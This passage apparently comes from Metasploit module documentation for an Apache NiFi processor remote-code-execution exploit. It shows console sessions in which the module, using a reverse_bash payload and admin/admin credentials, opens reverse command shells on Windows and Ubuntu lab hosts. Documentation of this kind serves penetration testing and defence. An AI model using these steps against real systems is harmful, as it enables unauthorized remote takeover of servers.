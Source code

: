 ```
[*] Command shell session 1 opened (192.168.194.131:4444 -> 192.168.194.140:50008) at 2020-10-03 13:17:58 +0100
[*] Session 1 created in the background.
msf exploit(multi/http/apache_nifi_processor_rce) > sessions

Active sessions
===============

  Id  Name  Type               Information                                                                       Connection
  --  ----  ----               -----------                                                                       ----------
  1         shell cmd/windows  Microsoft Windows [Version 10.0.18363.1082] (c) 2019 Microsoft Corporation. A...  192.168.194.131:4444 -> 192.168.194.140:50008 (192.168.194.140)
```

### Ubuntu Server 20.04.1 (authentication required)

It can be seen that it fails the first time because authentication is required, but succeeds after credentials are set.

```
$ msfconsole -q
msf exploit(multi/http/apache_nifi_processor_rce) > use multi/http/apache_nifi_processor_rce
[*] Using configured payload cmd/unix/reverse_bash
msf exploit(multi/http/apache_nifi_processor_rce) > set lhost 192.168.194.131
lhost => 192.168.194.131
msf exploit(multi/http/apache_nifi_processor_rce) > set rhost 127.0.0.1
rhost => 127.0.0.1
msf exploit(multi/http/apache_nifi_processor_rce) > set ssl true
[!] Changing the SSL option's value may require changing RPORT!
ssl => true
msf exploit(multi/http/apache_nifi_processor_rce) > set rport 9443
rport => 9443
msf exploit(multi/http/apache_nifi_processor_rce) > check
[*] 127.0.0.1:9443 - The service is running, but could not be validated.
msf exploit(multi/http/apache_nifi_processor_rce) > run -z
[*] Started reverse TCP handler on 192.168.194.131:4444 
[-] Exploit aborted due to failure: bad-config: Authentication is required. Bearer-Token or Username and Password must be specified
[*] Exploit completed, but no session was created.
msf exploit(multi/http/apache_nifi_processor_rce) > set username admin
username => admin
msf exploit(multi/http/apache_nifi_processor_rce) > set password admin
password => admin
msf exploit(multi/http/apache_nifi_processor_rce) > run -z
[*] Started reverse TCP handler on 192.168.194.131:4444 
[*] Waiting 5 seconds before stopping and deleting
[*] Command shell session 1 opened (192.168.194.131:4444 -> 192.168.194.130:50802) at 2020-10-03 13:18:00 +0100
[*] Session 1 created in the background.
msf exploit(multi/http/apache_nifi_processor_rce) > sessions

Active sessions
===============

  Id  Name  Type               Information                                                                       Connection
  --  ----  ----               -----------                                                                       ----------
  1         shell cmd/unix                                                                                       192.168.194.131:4444 -> 192.168.194.130:50802 (127.0.0.1)
```

